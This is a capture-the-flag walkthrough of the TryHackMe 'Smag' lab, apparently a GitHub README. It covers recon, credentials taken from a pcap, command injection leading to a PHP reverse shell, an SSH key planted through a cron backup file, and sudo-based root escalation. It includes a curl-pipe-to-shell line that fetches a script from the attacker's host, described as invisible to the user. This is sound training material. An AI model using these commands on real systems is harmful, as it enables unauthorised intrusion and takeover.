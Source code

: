 # SmagWriteUp
So I'll show you my way to hack this very nice, but no so easy tryhackme room :
Smag
# Recon
First, we need to scan with nmap, as always :
![Capture d’écran de 2020-07-31 18-50-30](https://user-images.githubusercontent.com/50116433/89050911-b889b400-d353-11ea-8889-df85a7b67fdb.png)<br>
We see http and ssh. The apache webserver isn't vulnerable and ssh isn't either.
Let's run an nmap scan on all ports in the background, just in case : 
```nmap -p- 10.10.43.30```
# Get a shell
Now I wanna look at the webserver, but it's under construction so nothing appears to be here...
I added smag.thm to /etc/hosts, but nothing changed.

One thing you should do everytime you're on a webpage is checking the file extension. Here the index file is index.php
The webserver is running php. 
Let's run gobuster, since this is the only thing we can do now :
![Capture d’écran de 2020-07-31 18-58-27](https://user-images.githubusercontent.com/50116433/89051347-68f7b800-d354-11ea-887f-5454af53f124.png)<br><br>

You noticed that I used the .php extension, and the txt too ( I always, it's just in case )
After finding /mail we can see a page saying the server is using mail2web software to displays mails on the page, but I didn't find anything with it in searchsploit :(<br>
There is a .pcap file, after opening it in wireshark we can see an http request with a username and a password. 
<br><br>
![censored_stuff](https://user-images.githubusercontent.com/50116433/89052543-26cf7600-d356-11ea-8f2c-34e3d0ba5225.jpg)<br>
<br>
Nice ! I tried to use these in ssh but it didn't work.
We also notice that the http request is going to development.smag.htb, and after adding it to my /etc/hosts file,
The domain development.swag.thm is redirecting to a login page where we can login with the credentials we found earlier.<br>
There is an admin command pannel :
![Capture d’écran de 2020-07-31 19-08-13](https://user-images.githubusercontent.com/50116433/89053375-65b1fb80-d357-11ea-80c1-3d531d7418f1.png)<br><br>
I try to ping my machine, just to see if it works, I use tcpdump to listen for incoming ping request : <br>
```sudo tcpdump -i tun0 icmp and icmp[icmptype]=icmp-echo```<br>
Then I run the command on the webpage and tadaaa:<br>
![Capture d’écran de 2020-07-31 19-08-33](https://user-images.githubusercontent.com/50116433/89053686-e40e9d80-d357-11ea-92fe-cfa5eb7c0dd5.png)<br><br>
It's working ! Unfortunately, it's not displaying any output, even in the source code, so we cannot read flags.
I tried to wget a php file from my machine, and the file is downloaded correctly by the machine but somehow I couldn't have access to it with my browser... 
At this point I tried many reverse shells, but I was sending commands with burp, and they didn't worked because the url encoding wasn't correctly executed.
I tried again few hours later but I was sending my reverse sshells command from the website and after few minutes I remebered that the webserver was running php, so php should be installed on the machine. And it was : my reverse php shell worked !<br>
![Capture d’écran de 2020-07-31 19-11-31](https://user-images.githubusercontent.com/50116433/89054531-42884b80-d359-11ea-8237-04c09f3f4b4c.png)
# User Flag
So there is a user jake, but we cannot acces the flag in his home directory and we can't either read the .ssh folder.
Next step is to run our favourite enumeration tool : [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).
I setup an http server on my computer with updog ( a very cool and easy to use http server ), then I run linpeas with the following command : <br>```curl 10.9.10.225:9090/linpeas.sh |/bin/sh```<br>
I do like this because here, no file is getting downloaded and it's invisible for the user.
After looking at the output ( it took some time ), I noticed a crontab executed by root :
![Capture d’écran de 2020-07-31 19-16-55](https://user-images.githubusercontent.com/50116433/89055602-f50cde00-d35a-11ea-8bf0-e53c1a050dd2.png)<br>
The root user is copying this file to jake's authorized_keys
We have write access to the /opt/.backups/jake_id_rsa.pub.backup file, so we can put our own .pub file here, and then connect to Jake with ssh !
Let's go to /dev/shm ( because we always have write access into it ) and use ssh-keygen.<br>
![Capture d’écran de 2020-07-31 19-20-22](https://user-images.githubusercontent.com/50116433/89055953-8bd99a80-d35b-11ea-94c3-a05746f862cc.png)<br>
After generating a public ssh key let's copy it to the jake .pub backup file :
```cp /dev/shm/id_rsa.pub /opt/.backups/jake_id_rsa.pub.backups```
Copy the id_rsa private key to our machine, wait a bit, then connect with ssh to jake's account :
![Capture d’écran de 2020-07-31 19-28-08](https://user-images.githubusercontent.com/50116433/89056343-289c3800-d35c-11ea-8310-bbb15cd4f7af.png)<br>
# Root Flag
Before running linpeas always check sudo -l permissions :
![Capture d’écran de 2020-07-31 19-28-32](https://user-images.githubusercontent.com/50116433/89056720-c263e500-d35c-11ea-84fb-28f79a977a73.png)<br>
There is a privesc with this on gtfobins ( even three ), the first one won't work because the machine isn't connected to internet, the second one may work but I'll try the third one because it fits on one line.<br>
![Capture d’écran de 2020-07-31 19-29-54](https://user-images.githubusercontent.com/50116433/89056972-2edee400-d35d-11ea-9660-564377550066.png)<br>
And we are root ! Thanks you [JakeDoesSec](https://tryhackme.com/p/JakeDoesSec) for this very nice room !
